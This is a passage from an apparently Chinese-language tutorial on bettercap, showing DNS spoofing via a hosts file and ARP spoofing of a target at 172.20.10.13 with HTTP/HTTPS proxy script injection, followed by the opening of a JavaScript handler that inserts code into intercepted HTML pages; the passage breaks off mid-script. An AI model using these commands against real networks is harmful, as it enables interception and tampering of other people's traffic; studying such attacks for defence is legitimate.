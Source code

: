 为了避免代码的重复，还可以打开 bettercap 的目录创建一个host文件，文件中存放要欺骗的域名和地址，然后在进行DNS欺骗的时候只需要设置arp.spoof.hosts这个参数就行了。比如创建一个host 文件如下：

![img](./assets/dbc9557da7af458aa83cb982617ce4c2.png)

进行 DNS 欺骗的时候只需要设置 arp.spoof.hosts 这个参数就行了

> set dns.spoof.hosts /root/host  #设置欺骗的域名和对应ip
> dns.spoof on  #开启dns欺骗



### 注入脚本

通过进行ARP欺骗，可以拦截到流量，自然就可以对拦截到的流量进行操作，我们可以对 http 协议的数据包进行代理，然后向里面注入恶意脚本。

> set arp.spoof.targets 172.20.10.13   #设置arp欺骗的目标
> arp.spoof on              #开启ARP欺骗
> set http.proxy.script /root/1.js    #注入恶意脚本
> set https.proxy.script /root/1.js
> http.proxy on             # 开启HTTP代理
> https.proxy on 

脚本文件 1.js 如下

```javascript
function onload(){



    log("Bettercap loaded");



    log("targets: " + env['arp.spoof.targets']);    



}



function onResponse(req, res){



    if(res.ContentType.indexOf('text/html') == 0){



        var body = res.ReadBody();



        log("Inject js!!!");



        if(body.indexOf("</head>") != -1){



```